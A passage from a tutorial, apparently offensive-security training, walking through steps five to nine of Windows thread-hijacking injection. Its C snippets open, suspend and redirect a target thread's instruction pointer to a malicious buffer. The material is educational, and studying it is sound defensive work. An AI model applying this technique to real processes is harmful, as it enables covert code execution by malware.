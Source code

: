 ```

```

At step five, we have gathered all the required information in the structure pointer and can open the target thread. To open the thread we will use OpenThread with the THREADENTRY32 structure pointer.

```
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}

```

At step six, we must suspend the opened target thread. To suspend the thread we can use SuspendThread.


```
SuspendThread(hThread);
```

At step seven, we need to obtain the thread context to use in the upcoming API calls. This can be done using GetThreadContext to store a pointer.


```
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);

```
At step eight, we need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. If you are not already familiar with CPU registers, RIP is an x64 register that will determine the next code instruction; in a nutshell, it controls the flow of an application in memory. To overwrite the register we can update the thread context for RIP.

```
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation

```

At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using SetThreadContext and the pointer for the context.

```
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);

```
